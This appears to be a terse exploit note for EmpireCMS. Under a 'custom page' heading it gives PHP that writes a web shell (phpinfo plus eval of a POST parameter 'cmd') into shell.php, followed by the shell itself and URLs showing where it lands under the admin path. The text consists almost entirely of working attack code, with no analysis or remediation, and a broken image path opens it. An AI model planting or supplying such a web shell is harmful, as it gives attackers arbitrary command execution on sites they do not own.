

自定义页面

```
<?php fputs(fopen("shell.php","a"),'<?php phpinfo();eval($_POST[cmd]);?>')?>
<?php phpinfo();eval($_POST['cmd']);?>
```

http://empirecms1.com//e/admin/shell.php

http://empirecms1.com/page.htmlm

